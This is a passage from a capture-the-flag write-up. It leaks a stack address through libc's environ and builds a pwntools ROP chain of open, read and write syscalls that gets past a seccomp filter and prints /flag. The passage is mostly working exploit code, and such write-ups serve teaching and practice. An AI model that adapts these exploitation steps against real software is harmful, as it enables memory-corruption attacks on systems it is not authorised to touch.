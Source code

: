 ## Leaking the stack

Leaking the libc is cool but given the binary has a seccomp we cannot write
one_gadgets on `__malloc_hook` or `__free_hook` or within the GOT (of the libc
or of the binary) because of the seccomp. We have to do a ROPchain, to do so
we could use `setcontext` but for this libc it is made around `rdx` that we do
not control. Or we could simply leak `environ` to get the address of a
stackframe from which we could return. That's what we gonna do on the
`rewrite_books` stackframe.  
```py  
def leak_environ(idx):  
   io.sendlineafter(b"Option: ", b"3")  
   io.sendlineafter(b"Index: ", str(idx).encode())  
   return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00"))

# leak stack (environ)  
edit(4, pwn.flat([  
       # 1==  
       0xff, # sz  
       libc.sym.environ # target  
   ], filler = b"\x00"))

environ = leak_environ(1)  
pwn.log.success(f"environ: {hex(environ)}")

stackframe_rewrite = environ - 0x150  
pwn.log.success(f"stackframe_rewrite: {hex(stackframe_rewrite)}")  
```

## ROPchain

Everything is ready for the ROPchain, we cannot use mprotect to use a
shellcode within the seccomp forbids it. We just have to set the first entry
to the stackframe we'd like to hiijack and that's it, then we just need call
edit on this entry and the ROPchain is written and triggered at the return of
the function!  
```py  
rop = pwn.ROP(libc, base=stackframe_rewrite)

# setup the write to the rewrite stackframe  
edit(4, pwn.flat([  
       # 1==  
       0xff, # sz  
       stackframe_rewrite # target  
   ], filler = b"\x00"))

# ROPchain  
rop(rax=pwn.constants.SYS_open, rdi=stackframe_rewrite + 0xde + 2,
rsi=pwn.constants.O_RDONLY) # open  
rop.call(rop.find_gadget(["syscall", "ret"]))  
rop(rax=pwn.constants.SYS_read, rdi=3, rsi=heap_leak, rdx=0x100) # file
descriptor bf ...  
rop.call(rop.find_gadget(["syscall", "ret"]))

rop(rax=pwn.constants.SYS_write, rdi=1, rsi=heap_leak, rdx=0x100) # write  
rop.call(rop.find_gadget(["syscall", "ret"]))  
rop.exit(0x1337)  
rop.raw(b"/flag\x00")

print(rop.dump())  
print(hex(len(rop.chain()) - 8))

# write and trigger the ROPchain  
```